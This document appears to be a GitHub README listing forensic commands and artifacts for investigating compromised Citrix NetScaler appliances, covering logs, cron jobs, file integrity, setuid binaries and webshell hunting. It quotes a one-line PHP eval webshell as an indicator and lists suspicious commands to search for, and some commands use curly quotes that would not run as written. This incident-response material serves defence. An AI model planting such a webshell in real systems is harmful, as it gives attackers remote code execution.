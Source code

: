 # Citrix Netscaler Forensics
This repository provides a comprehensive list of commands & artifacts to search for while performing a forensic investigation on Citrix Netscaler appliances. Contributions are welcome.<br>

# Table Of Contents
- [Automated Script](#automated-script)
- [Manual Forensics](#manual-forensics)
- [Launch the THOR APT Scanner](#launch-the-thor-apt-scanner)
- [References](#references)

# Automated Script
I've made a small shell script which acts as a wrapper around these commands. You can, if you want to automate the process (although I still recommend to double check manually), run the script directly on the ADC appliance.

```
chmod +x citrix-adc-forensics.sh
./citrix-adc-forensics.sh
```

# Manual Forensics

Generally located log files:
```
/var/log/*
```

Failed authentication attempts
```
zcat /var/log/ns.log.*.gz | grep "Authentication is rejected" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; print $0}' | sort | uniq -c | sort -nr
```

SSH logs
```
zcat /var/log/auth.log.*.gz | grep -i "sshd" | grep -i "accepted password" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; sub(/^[[:space:]]+/, ""); print "Accepted password for " $0}' | uniq -c | sort -nr
```

Search for suspicious commands
```
curl
hostname
uname
nobody
whoami
id
```

Search for suspicious activity in the http logs
```
/var/log/httpaccess.log
/var/log/httperror.log
```

Look for suspicious files in these directories. Payloads are often placed here.
```
/netscaler/portal/templates
/var/tmp/netscaler/portal/templates
```

Look for processes and child processes
```
ps aux
ps aux | grep nobody
```

Look for cronjobs and also the cron history
```
crontab -l -u nobody
crontab -l -u nsroot
crontab -l -u root

/var/log/cron
```

Look for unauthorized modifications to the crontab file and/or existence of suspicious files in /var/cron/tabs and other locations
```
find / -type f -name “res*” | grep -E ‘res($|\.[a-z]{3})$’
```

Check the file integrity with a md5 sum. Compare them with a 100% secure ADC.
```
cd /netscaler ; for i in “nsppe nsaaad nsconf nsreadfile nsconmsg”; do md5 ${i} ; done
```

Check for APT5 techniques. This should provide no output. If yes, potential compromise.
```
procstat –v $(pgrep –o –i nsppe) | grep “0x10400000 “ | grep “rwx”
```

Check for unusual administrator activity. You can look for the `pb_policy` in the `ns.log` file.
```
Example:

<local0.info> [hostname] pb_policy: Changing pitboss policy from X to Y
<local0.info> [hostname] pb_policy: Changing pitboss policy from Y to X

X & Y are constant values for you system
```

Check for potential PHP WebShells
```
/var/netscaler/logon/LogonPoint/uiareas/[FILE].php


content could be something like this:
<?php http_response_code(201); @eval($_POST[5]);

Look out in the httpaccess.log file for POST requests for the /logon/LogonPoint URL

Commmand1

fgrep -a -e http_response_code -e '$_POST' -r /var/netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command2

fgrep -a -e http_response_code -e '$_POST' -r /var/vpn/ | fgrep -v -e' /var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command3

fgrep -a -e http_response_code -e '$_POST' -r /netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'
```

Check for php files excluding folders that have PHP files from them by default
```
find / -type f -name *.php* -not -path "/var/netscaler/gui/admin_ui/*" -not -path "/netscaler/websocketd/*" -not -path "/netscaler/ns_gui/admin_ui/*"
```

Search for *setuid* binaries. This is a setuid Privilege Escalation technique.
```
find / -perm -4000 -user root -exec ls -lc {} \;

normal files which have the setuid bit set

-r-sr-xr-x 1 root wheel 27872 Jul 10 18:24 /netscaler/ping   
-r-sr-xr-x 1 root wheel 32656 Jul 10 18:24 /netscaler/ping6   
-r-sr-xr-x 1 root wheel 31844 Jul 10 18:24 /netscaler/traceroute  
-r-sr-xr-x 1 root wheel 24784 Jul 10 18:24 /netscaler/traceroute6   
-r-sr-xr-- 1 root operator 10584 Jul 10 18:09 /sbin/mksnap_ffs   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/shutdown   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/poweroff   
-r-sr-xr-x 1 root wheel 34352 Jul 10 18:09 /usr/bin/crontab   
-r-sr-xr-x 1 root wheel 11632 Jul 10 18:09 /usr/bin/lock   
-r-sr-xr-x 1 root wheel 24552 Jul 10 18:09 /usr/bin/login   
-r-sr-xr-x 1 root wheel 9736 Jul 10 18:09 /usr/bin/passwd   
-r-sr-xr-x 1 root wheel 16408 Jul 10 18:09 /usr/bin/su   
-r-sr-xr-x 1 root wheel 74008 Jul 10 18:09 /usr/libexec/ssh-keysign
```

# Launch the THOR APT Scanner
[@Neo23x0](https://github.com/Neo23x0) a.k.a Florian Roth did a pretty good guide on how to use the free version of the THOR APT Scanner to scan the Citrix ADC.<br><br>
Follow the link: https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/


# References
2024-01-26, https://trustedsec.com/blog/netscaler-remote-code-execution-forensics<br>
2024-01-26, https://www.mandiant.com/resources/blog/session-hijacking-citrix-cve-2023-4966<br>
2024-01-26, https://support.citrix.com/article/CTX227560/citrix-adc-logs-collection-guide<br>
2024-01-26, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-201a<br>
2024-01-26, https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/<br>
2024-01-26, https://media.defense.gov/2022/Dec/13/2003131586/-1/-1/0/CSA-APT5-CITRIXADC-V1.PDF<br>
